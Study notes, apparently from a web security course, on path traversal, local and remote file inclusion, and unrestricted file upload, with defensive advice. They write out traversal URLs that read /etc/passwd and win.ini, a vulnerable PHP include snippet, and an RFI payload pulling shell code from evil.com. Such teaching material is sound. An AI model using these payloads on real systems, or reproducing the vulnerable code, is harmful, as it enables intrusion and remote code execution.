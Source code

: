 # Path traversal
- web app need to access resources in the file system to implement the web app such as ( images , text and so son )
- web app use parameters to define resources
- when these parameters are user-controlled and not probebly sanitized security isuues may rise
- the dot-dot-slash Attack
  - `http://www.elsfoo.com/getFile?path=../../../etc/passwd` : Linux --> /
  - `http://www.elsfoo.com/getFile?path=../../../windows/win.ini` : Windows ->\ , /
  - `http://www.elsfoo.com/getFile?path=../../../windows/boot.ini` : Windows
- depending on os root folder can be located :
  - *NIX -- > `/`
  - Windows -- >`<Driver letter>:\`
- to move up a directory use `../`
- terminate the current file name. : `%00`, does not work with PHP versions >= 5.3.4
	- `file_read ("/htdocs/website/reports/" user_input + ".pdf");`
- URL encoding, 16-bit Unicode
- Best defensive Techniques
	- Filter any malicious sequences from the input parameters
# File Inclusion Vulnerabilities 
- File inclusion vulnerabilities are divided in Remote and Local
- LFI : include Function
```
<?php
include("loc/" . $_GET['location']);
?>
```
- these vulunurabilty often found in CMS
- Remote File Inclusion
  - Work the same way as LFI
  - only diff is that the file included is pulled remotely
  - our aim is not to read but to include code execute
  - `vuln.php?page=http://evil.com/shell.txt`
  - In this case, shell.txt (containing PHP code)
  - It is important to know that the file included must not have the .php extension, otherwise the code within the included file will run on the attacker machine
  - RFI is possible because the allow_url_include directive is set to On within php.ini. It is good practice to set it to Off.
# Unrestricted File Upload
- vulunerabilty that affects web apps that allow the upload of files without enforcig restrictive policies
  - Max File size (DOS)
  - nature of file (image , pdf and xls )
- a malicous user can acquire complete control of the system
- For the application to be vulnerable :
  - The file type is not checked against a whitelist of allowed formats
  - The file name and path of the uploaded file is known to the attacker or guessable
  - The folder in which the file is placed allows the execution of server-side scripts
- Best Defense : A web developer should inspect the uploaded file at two different layers:
  - METADATA (name, extension, size, etc.)
  - ACTUAL CONTENT
  - Enforcing a whitelist (or blacklist)
- Watch Video

